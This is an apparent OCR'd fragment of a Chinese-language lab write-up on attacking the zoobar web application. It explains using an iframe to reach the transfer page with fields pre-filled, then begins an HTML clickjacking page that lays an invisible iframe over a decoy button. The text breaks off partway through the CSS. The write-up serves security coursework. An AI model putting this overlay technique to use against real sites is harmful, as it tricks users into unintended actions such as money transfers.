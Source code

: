 ```

</html>
```

通过一次失败的CSRF攻击可以让iframe跳转到zoobar的转账页面，同时自动填写好转账给谁和转账的zoobar数目

2.html
```
<!DOCTYPE html>

<html>

<head>

<style>

     html,body{

	top: -0px;

        left: -0px;

        display: block;

        height: 50%;

        width: 100%;

     }

     iframe{

	top:200px;

	left:500px;

        width: 1000px;

        height: 500px;

        position: absolute;

        z-index: 1;

        -moz-opacity: 0;

        opacity: 0;

        filter: alpha(opacity=0);



     }

     #mybutton{

        position:absolute;

        z-index: 0;

	top:480px;

	left:880px;

```